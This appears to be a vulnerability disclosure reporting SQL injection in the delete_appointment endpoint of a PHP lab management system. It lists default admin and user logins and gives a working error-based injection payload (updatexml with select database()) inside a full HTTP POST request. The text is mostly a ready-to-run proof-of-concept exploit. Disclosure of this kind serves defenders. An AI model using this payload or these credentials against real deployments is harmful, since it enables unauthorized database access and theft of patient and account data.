 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: YorkLee

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/classes/Master.php?f=delete_appointment

Vulnerability location: /odlms/classes/Master.php?f=delete_appointment,id

dbname=odlms_db,length=8

[+] Payload: id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Master.php?f=delete_appointment HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=4'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```


![image](https://user-images.githubusercontent.com/54017627/191268708-fd0a9a4a-1f1a-4210-889a-c2fc0302f971.png)
